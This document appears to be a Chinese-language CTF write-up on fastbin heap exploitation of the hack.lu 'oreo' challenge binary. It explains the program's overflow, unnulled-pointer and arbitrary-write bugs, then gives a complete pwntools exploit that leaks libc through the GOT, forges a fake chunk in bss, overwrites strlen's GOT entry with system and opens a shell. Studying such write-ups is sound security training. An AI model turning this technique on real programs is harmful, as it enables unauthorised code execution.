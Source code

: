 # fastbin原理：<br>
1.堆溢出修改堆块结构中指向下一个堆块的指针,指向伪造的chunk<br>
2.伪造chunk,为了绕过next_size,要保证伪造的chunk的下一个chunk的大小不能太大或者太小<br>
3.然后free这个伪造的chunk,然后malloc一个相同大小的chunk,达成对伪造chunk的读写<br>


## 这里使用hack.lu-oreo记录fastbin的学习小结
![menu](img/menu.png)
add-增加堆块（漏洞点：在dword_804A288+25(name)的地方读取了56个字节，但是总共只申请了0x38=56个字节，所以可以溢出）<br>
gan的结构体为<br>
```
struct{  
    char* description;
    char* name;
    gan* last_heap;
}gan
```
所以这里可以溢出到last_heap<br>

![add](img/add.PNG)<br><br>
show-展示堆块(漏洞点：打印堆块的是，由于可以溢出到last_heap，那么可以将last_heap修改成任意的got表地址，那么在打印堆块的时候，就会将got表地址里面的值当成description打印出来)<br>

![show](img/show.PNG)<br><br>

order-delete堆块(漏洞点:日常不置空)<br>
![delete](img/delete.PNG)<br><br>

leaveMessage(漏洞点：这个函数会往bss段写数据，但是他是往dword_804a2a8这个地址里面的值作为地址写数据，如果这个地址可以控制，那么就可以往任意地址写数据了)<br>
![message](img/message.PNG)<br><br>

## 利用思路<br>
1.泄露基址：利用add溢出使用函数got地址覆盖到last_heap，然后使用show函数打印出来<br>
2.伪造chunk：这里使用bss段也就是message所在的地方伪造chunk，message的起始是0x804a2a8中的值指向的0x804a2c0。可以通过观察发现，0x804a2a8-4是另外一个变量，是add的数量，所以伪造0x40的chunk，就需要add 40次。并且要过free时next_size的检测，所以要在bss段伪造两个chunk,只需要对第二个chunk的大小做一定的伪造即可<br>
3.利用message可以向0x804a2a8中保存的指向的地址写任意内容,如果不做任何修改，默认指向的是0x804a2c0。所以free我们伪造在bss段的chunk,在malloc的时候，可以获取0x804a2a8中的写权限，然后修改0x804a2a8中指向的地址，然后在使用message这个函数，向我们写入的地址中写入任何内容。所以我们可以将strlen_got放在0x804a2a8地址，然后通过message向strlen_got里面写入system_addr的地址，然后在后面调用strlen的时候，就会调用system。


##利用代码
```
from pwn import *

DEBUG=1
if DEBUG:
	context.log_level='debug'
	p=process('./oreo')
	gdb.attach(p,'b *0x80487b5')
else:
	p=remote()

def add(name, description):
	p.sendline('1')	
	p.sendline(name)
	p.sendline(description)


def show():
	p.sendline('2')

def delete():
	p.sendline('3')


def message(notice):
	p.sendline('4')
	p.sendline(notice)

p.readuntil('Exit')
add('a','a')
delete()



#leak free_addr in libc
free_got=0x804a238
payload=27*'A' + p32(free_got)
add(payload, 25*'b')
show()

p.recvuntil('Description: ')
p.recvuntil('Description: ')

free_in_libc=u32(p.recv(4))
success(hex(free_in_libc))

#create fake chunk
for i in range(0x40-2):
	add('a','a')

bss_addr=0x804a2a8
#chunk1
payload='a'*27+p32(bss_addr) 
add(payload,'n')
#chunk2
message('a'*0x1c + '\x00'*4 + 'a'*4 + p32(100))
delete()

#when the func of message write notice to bss_addr, it will write to the addr of what 0x804a2a8 point to 
strlen_got=0x804a250
add('b', p32(strlen_got))

libc=ELF('libc-2.23.so')
libc_base = free_in_libc-libc.symbols['free']
system_addr = libc_base + libc.symbols['system']

success(hex(system_addr))


message(p32(system_addr)+';/bin/sh')
p.interactive()


```


















